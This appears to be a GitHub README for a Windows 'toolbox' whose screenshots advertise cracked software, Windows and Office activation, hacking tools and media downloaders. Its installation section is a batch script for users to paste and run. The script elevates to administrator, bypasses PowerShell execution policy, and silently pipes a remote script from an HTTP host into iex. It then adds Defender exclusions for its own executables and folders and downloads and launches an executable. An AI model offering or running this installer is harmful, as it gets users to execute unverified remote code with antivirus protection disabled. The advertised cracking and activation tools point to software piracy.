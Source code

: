 # Saoas_Toolbox
 - **Installation:**
   - Copy the following Code into an Text Document and save as .cmd File, then Start the file.
   - or Download [THIS FILE](https://github.com/SaoasBlubb/Saoas_Toolbox/releases/download/latest/Saoas_Toolbox_Installer.cmd) and Start the file.
```
@echo off & setlocal
net session >NUL 2>&1 && goto :ELEVATED
set ELEVATE_CMDLINE=cd /d "%~dp0" ^& "%~f0" %*
powershell.exe -noprofile -c Start-Process -Verb RunAs cmd.exe \"/c $env:ELEVATE_CMDLINE\"
exit /b %ERRORLEVEL%
:ELEVATED

set "psCommand=Set-ExecutionPolicy Bypass -Scope Process -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('http://files.saoas.tv/path.ps1'))" >nul 2>&1

mkdir "C:\Saoas" >nul 2>&1

powershell -NoLogo -Sta -NoProfile -NonInteractive -ExecutionPolicy Bypass -Command "& {%psCommand%}" >nul 2>&1
powershell -Command Add-MpPreference -ExclusionProcess "Saoas_Toolbox.exe" -Force >nul 2>&1
powershell -Command Add-MpPreference -ExclusionProcess "Installer.exe" -Force >nul 2>&1
powershell -Command Add-MpPreference -ExclusionProcess "Multi_Downloader.exe" -Force >nul 2>&1
powershell -Command Add-MpPreference -ExclusionPath "%USERPROFILE%\Desktop\Saoas_Tools" -Force >nul 2>&1
powershell -Command Add-MpPreference -ExclusionPath "C:\Saoas" -Force >nul 2>&1

cd "C:\Saoas" >nul 2>&1
powershell Invoke-WebRequest -Uri "https://eternallybored.org/misc/wget/1.21.4/64/wget.exe" -OutFile "wget.exe"

cd /d "%USERPROFILE%\Desktop" >nul 2>&1
powershell Invoke-WebRequest -Uri "http://files.saoas.tv/Toolbox/Saoas_Toolbox.exe" -OutFile "Saoas_Toolbox.exe"

start "" "%USERPROFILE%\Desktop\Saoas_Toolbox.exe"  >nul 2>&1

```

#####

# TOOLBOX PICTURES:

![PAcket_Managers_Menu_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/e4dd290c-0853-47aa-9269-42878cd199d8)
![Cracked_Files_Main_Menu_3of3_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/bc08218b-c0b8-499c-95ab-5d840495f47b)
![Cracked_Files_Main_Menu_2of3_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/3b22f508-e915-4e02-aae8-e1c41a6e0221)
![Cracked_Files_Main_Menu_1of3_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/c7ea0603-dad6-4b3d-be20-b63ebc97e14f)
![Office_Install_Activation_Menu_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/52afce7d-89ce-4b4a-a632-934fedcb3c56)
![Windows_Install_Activation_Menu_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/c1ab1ab5-f8c8-41a8-b415-7b937fd8eab9)
![Windows_Tweaks_Menu_3of3_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/788077a0-f5eb-416c-b001-4276efbd0add)
![Windows_Tweaks_Menu_2of3_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/e0b14c7c-8276-42fc-8d63-3e744cf3c1e9)
![Windows_Tweaks_Menu_1of3_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/748ee5bb-546a-4dd5-97c7-741d182d80ef)
![Windows_Context_Tweaks_Menu_4of4_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/1555e886-3a02-461c-b23a-53ec00a88374)
![Windows_Context_Tweaks_Menu_3of4_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/e277a2f9-0e21-4ddf-958c-4792f08d82df)
![Windows_Context_Tweaks_Menu_2of4_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/92e58e4c-c74c-4f8c-8472-4b3bc3123a13)
![Windows_Context_Tweaks_Menu_1of4_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/ce7353f3-3e36-4227-80d4-c0890d32ae8b)
![Windows_Tweaks_Main_Menu_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/8767eeca-1ec9-4792-9e10-f90ca370ade3)
![Internet_Browsers_Menu_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/44f7c0d2-2a27-4f9d-8a35-4c8f577649f7)
![Hacking_Tools_Menu_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/055404e6-9911-4fc4-af6b-9025ddad232b)
![Programs_Menu_2of2_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/6eb46d6b-eaf0-472b-a018-354eeaa40806)
![Programs_Menu_1of2_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/01cf5411-e444-4158-b0c4-672fe9b9b2e3)
![Programs_and_Hacking_tools_Menu_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/7ee83d03-7b56-4232-b271-2b3b0f132947)
![Runtimes_Frameworks_Menu_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/15dbc0b4-67f8-4b40-bec9-151c1b4f5c0b)
![Saoas_Tools_Menu_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/9f8b618e-0b44-4e1e-824b-1f53b3fe3cda)
![Toolbox_Main_Menu_v 8 8 3](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/06704b2a-1807-42c2-926e-1fc8c6b697ad)


# MULTIDOWNLOADER PICTURES:

![Website_Downloader_Menu_v 6 0 0](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/70b56c69-4474-47a8-a19c-91a09977322d)
![SoundCloud_Downloader_Menu_v 6 0 0](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/449c221d-06bb-41f3-9ea0-4c4d80361fdf)
![Spotify_Downloader_Menu_v 6 0 0](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/abc92b92-ac9d-436f-a19d-74a64e22e28e)
![YouTube_Video_Download_Menu_v 6 0 0](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/a683921a-2403-4a60-afa9-d95e6d8dc67a)
![YouTube_Audio_Download_Menu_v 6 0 0](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/88dcdea1-7916-4882-b283-7e4ac516ac3f)
![YouTube_Downloader_Menu_v 6 0 0](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/1fc38cca-9fb9-4bad-8e56-324f0fb9d3e2)
![Multi_Downloader_MAin_Menu_v 6 0 0](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/68e84a22-da58-4a9a-b7d4-259c3205b72d)
![Multi_Downloader_Update_v 6 0 0](https://github.com/SaoasBlubb/Saoas_Toolbox/assets/56938581/b9a7783d-2eaf-4463-9faf-f163ae49e2a7)
